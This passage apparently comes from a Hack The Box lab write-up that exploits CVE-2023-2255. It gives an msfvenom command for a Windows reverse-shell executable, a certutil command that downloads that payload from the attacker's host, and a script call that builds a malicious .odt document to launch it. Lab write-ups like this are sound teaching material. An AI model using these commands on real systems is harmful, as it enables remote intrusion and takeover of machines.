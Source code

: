
Researching a bit on this, it seems like this form could be vulnerable to **CVE-2023-2255**.

Let's use [this exploit](https://github.com/elweth-sec/CVE-2023-2255/blob/main/README.md) to generate malicious payload. 

We will first create a malicious payload using msfvenom that will spawn reverse shell connection back to us when it is triggered:

`sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.36 LPORT=9001 -f exe -o shell.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-42.png)

We will upload the generated payload to the target using certutil.exe:

`certutil.exe -urlcache -split -f http://10.10.14.36:1235/shell.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-45.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-48.png)

Now that the payload is created and transferred to the system, we would have to upload a malicious odt file that will execute the command to run the payload.

We will create a odt file named **exploit-run.odt** that will run **shell.exe** which is already uploaded to the target system:

`sudo python3 cve-2023-2255.py --cmd 'C:\Users\Public\shell.exe' --output 'exploit-run.odt'`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-43.png)
